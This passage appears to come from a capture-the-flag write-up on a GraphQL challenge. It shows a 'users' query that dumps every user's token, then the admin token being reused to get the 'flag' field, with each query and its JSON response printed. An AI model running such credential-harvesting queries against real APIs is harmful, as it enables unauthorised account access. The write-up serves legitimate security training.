 Surely it's not that easy...

```graphql
{
    flag
}
```
```json
{
    "errors": [
        {
            "message": "Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.",
            "locations": [
                {
                    "line": 1,
                    "column": 2
                }
            ]
        }
    ]
}
```

Ok, we need a token. Let's try the `users` query from earlier.

```graphql
{
    users {
        username
        token
    }
}
```
```json
{
    "data": {
        "users": [
            {
                "username": "admin",
                "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
            },{
                "username": "b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
                "token": "5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
            }
            ... more users
        ]
    }
}
```

Using the admin's token got the flag.

```graphql
{
    flag(token: "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b")
}
```
```json
{
    "data": {
        "flag": ""
    }
}
```
